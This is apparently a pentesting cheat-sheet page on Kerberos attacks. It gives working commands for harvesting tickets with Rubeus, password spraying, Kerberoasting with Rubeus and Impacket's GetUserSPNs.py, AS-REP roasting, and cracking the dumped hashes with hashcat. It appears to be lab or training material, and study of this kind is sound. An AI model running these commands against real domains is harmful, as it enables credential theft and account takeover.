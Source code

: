 # Rubeus

> Rubeus include many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting, etc.

{% embed url="https://github.com/GhostPack/Rubeus" %}

## Harvesting Tickets

_For pass the ticket attack_

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

## Brute-Forcing / Password-Spraying

In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

## Kerberoasting

### Rubeus

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

### Impacket

**Impacket Installation**

`cd /opt` navigate to your preferred directory to save tools in

download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19

`cd Impacket-0.9.19` navigate to the impacket directory

`pip install .` - this will install all needed dependencies

**Kerberoasting w/ Impacket**

`cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

## AS-REP Roasting

AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

### Dumping KRBASREP5 hashes

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

Crack hash with hashcat
